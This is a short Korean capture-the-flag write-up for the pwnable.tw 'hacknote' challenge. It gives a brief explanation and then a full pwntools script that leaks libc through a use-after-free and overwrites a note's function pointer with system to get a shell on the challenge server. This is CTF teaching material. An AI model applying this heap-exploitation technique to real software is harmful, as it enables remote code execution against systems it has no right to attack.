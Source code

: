 ```yaml
---
title: "[pwnable.tw]hacknote"
date: 2020-2-19
ctf: Pwnable.tw
layout: post
---
```


uaf 취약점을 이용해서 풀 수 있다. 우선 언솔빈으로  libc leak해주고 malloc 2번 되는데 첫번째 malloc 해주는 곳에 함수 포인터가 들어가는데 uaf로 함수포인터에 system주소를 넣고 뒤에 인자로 sh을 넣어주면 된다. 그리고 print_note로 함수 포인터를 실행시켜주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./hacknote')
#p = process('./hacknote')
p = remote('chall.pwnable.tw',10102)
libc = ELF('./libc_32.so.6')
#libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def add_note(size,content):
	sa(':','1')
	sa(':',str(size))
	sa(':',content)

def del_note(idx):
	sa(':','2')
	sa(':',str(idx))

def print_note(idx):
	sa(':','3')
	sa(':',str(idx))

add_note(0x80,'AAAA')
add_note(0x80,'BBBB')
del_note(0)
add_note(0x20,'CCCC')
print_note(0)

p.recvuntil('CCCC')
libc_base = u32(p.recv(4)) - (0x1b0780+176) # main_arena + 176
log.info('libc_base : {}'.format(hex(libc_base)))

add_note(0x20,'DDDD')
del_note(2)
del_note(3)
add_note(8,p32(libc_base + libc.symbols['system']) + ";sh")

print_note(0)

p.interactive()
```